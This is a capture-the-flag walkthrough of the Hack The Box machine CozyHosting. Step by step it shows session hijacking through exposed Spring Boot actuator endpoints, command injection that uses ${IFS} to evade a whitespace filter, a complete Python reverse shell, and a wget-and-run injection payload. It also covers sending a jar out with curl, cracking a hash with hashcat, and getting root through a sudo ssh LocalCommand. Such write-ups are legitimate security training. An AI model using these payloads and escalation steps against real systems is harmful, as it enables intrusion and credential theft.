# CozyHosting

## Information about the box

- Difficulty: easy
- Points: 20

## Discovery

I first scanned the machine using the following nmap configuration: `nmap -Pn -oN scans/nmap_10.10.11.230.nmap -vv -p- -T5 10.10.11.230`. I got the following results:

```
$ nmap -Pn -oN scans/nmap_10.10.11.230.nmap -vv -p- -T5 10.10.11.230

...
PORT     STATE SERVICE   REASON
22/tcp   open  ssh       syn-ack
80/tcp   open  http      syn-ack
9898/tcp open  monkeycom syn-ack
...
```

The first port I tested was port 80, HTTP. I used `curl -vv http://10.10.11.230:80` to potentially determine the type of server that listens on this port. I got the following result:

```
* processing: http://10.10.11.230:80
*   Trying 10.10.11.230:80...
* Connected to 10.10.11.230 (10.10.11.230) port 80
> GET / HTTP/1.1
> Host: 10.10.11.230
> User-Agent: curl/8.2.1
> Accept: */*
> 
< HTTP/1.1 301 Moved Permanently
< Server: nginx/1.18.0 (Ubuntu)
< Date: Fri, 08 Sep 2023 14:27:20 GMT
< Content-Type: text/html
< Content-Length: 178
< Connection: keep-alive
< Location: http://cozyhosting.htb
< 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
* Connection #0 to host 10.10.11.230 left intact
```

After seeing the URL in the `Location` header, I then added a new entry in the `/etc/hosts` file:

```
10.10.11.230 cozyhosting.htb
```

I then visited the website on the browser and was greeted with the following page:


I inspected the webpage and found the following information:

- The webpage uses a template called "FlexStart".
- There is a `main.js` file on the website, but nothing relevant was found there.
- An email - `info@cozyhosting.htb` and a phone number `+62 5589 554488 55`.

I was curious if I could find what type of technlogy was running server-side, by checking if `index.php` or `index.html` gave me the same page, but to my surprise, it has shown me an interesting error page on both of the endpoints:



I have googled the following search: `Whitelabel Error Page` and got the following result on the first page:



I have therefore safely assumed that I was dealing with a Spring-boot application.

The next step I done was run dirbuster and try to discover hidden paths. The following paths were found:

- `/index`
- `/login`
- `/admin` - Was secured by a authentication mechanism.
- `/error`

I checked all the paths and did not find much. After a while I assumed that maybe I used the wrong wordlist for the job, so I lated used the SecLists `spring-boot.txt` wordlist from their github page and ran it in burpsuite. I surprisingly got new results:

- `/actuator`
- `/actuator/beans`
- `/actuator/env`
- `/actuator/env/home`
- `/actuator/env/lang`
- `/actuator/env/path`
- `/actuator/health`
- `/actuator/mappings`
- `/actuator/sessions`



I checked out all paths, and the one which interested me the most was `/actuator/sessions`. The path displays all the JSESSIONID session cookies active in the webapp:



I opened up devtools, changed my initial cookie I got from `/login` and visited `/admin`. I was in!

I was greeted with a form:



After filling out the form with my IP address and a random username, I got an error which looked the same as if it were run in the terminal:



I captured the request on burpsuite and tested the `/executessh` path. I discovered that you can potentially inject other OS commands:



So I tried and got an error, which said that "You cannot have whitespace in the username". I googled a bit and found an evasion technique which involves the `IFS` environment variable.

The `IFS` environment variable is an array of whitespace characters which are used for field seperation. The `IFS` variable allows bash scripts to iterate through a delimiter seperated string. By default, `IFS` is set to a 3-character string containing a space, a newline and a tab, so the delimiter can be one of those characters. An interesting thing is that when echo'ing the `IFS` variable, it seems that it behaves just like a space, it does not add a tab nor a newline to the output. This is how the output looks like:

```
$ echo HELLO${IFS}WORLD
HELLO WORLD
$ 
```

Here is more [information](https://bash.cyberciti.biz/guide/$IFS) regarding `IFS`.

Using the techique, I `curl`'ed to my machine to check if the exploit works:



It works!

## Exploitation

The next step I've done is check what binaries are available for generating a reverse shell. One of the binaries found was `python3`, which I used for my reverse shell. This is the payload I saved in a file called `rev.py`:

```python
#!/usr/bin/python3

import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.58",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

I then setup a web server using `python3 -m http.server` and sent the following POST data to the server:

```
host=10.10.16.85&username=test;mkdir${IFS}/tmp/nora/;wget${IFS}-O${IFS}/tmp/nora/rev.py${IFS}http://10.10.16.58:8000/custom_scripts/rev.py;python3${IFS}/tmp/nora/rev.py;#
```

Which gave me this:



Got a shell!

## Post-exploitation

I checked `/etc/passwd` and found a new account, `josh`. I then ran `linpeas.sh` on the victim machine, but I did not find anything interesting. After searching through the filesystem for a while, I decided to inspect the web application, which was in `/app/cloudhosting-0.0.1.jar`. I did this by first setting up an upload server using the following command: `python3 -m uploadserver`. On the victim machine, I just `curl http://<ATTACKER_IP>:8000 -F "files=@cloudhosting-0.0.1.jar"`.

The next thing I've done is decompile the `jar` file using `jd-gui`. I searched through the decompiled data and found credentials for:

- `postgres`
- `kanderson`



I used the `kanderson` credentials for `josh`, but it was invalid. I upgraded the tty by:

1. Pressing `CTRL+Z` to sent the reverse shell to background.
2. `stty raw -echo; fg`
3. `reset` on the foregrounded reverse shell session.
4. Setting `TERM` and row and column size for the tty using `stty rows X columns Y`.

The next thing I've done is use the following command to access the database `psql -h localhost -U postgres -d cozyhosting -W`. I used the credentials and accessed the database.



I searched through the database and found a table `users` with the following accounts:



Since we already know the `kanderson` password, I skipped it and attempted to crack `admin` credentials on my attacker machine by saving the hash and using the following command: `hashcat -a 0 -m 3200 admin.hash /<PATH>/<TO>/rockyou.txt.tar.gz`. Shortly after running a command, it got cracked!



I used the cracked credentials to try to login to `josh`, which worked!

Now, since I had an SSH account I could access, I just ditched the reverse shell and started using the `josh` account. First thing I did was check `sudo -l`, which showed me an entry:



I wasn't quite sure how to exploit this at first, but after googling a bit I found something about the SSH `command mode` feature, which can be invoked by:

1. Pressing ENTER in the SSH session.
2. Pressing `~` and then `C` to execute a command locally.

But that gave me `commandline disabled`. I tried to enable it using `ssh -o "EnableEscapeCommandline=yes" josh@localhost`, but that gave back an error basically saying that the option does not exist. After a bit of googling I found that there exists two additional options:

- `PermitLocalCommand` - Enables the command mode.
- `LocalCommand` - Execute a command upon starting the session.

I used both options and crafted the following configuration: `sudo ssh -o "PermitLocalCommand=yes" -o 'LocalCommand="/bin/bash"' josh@localhost`. The command gave me the following result:



Root shell obtained!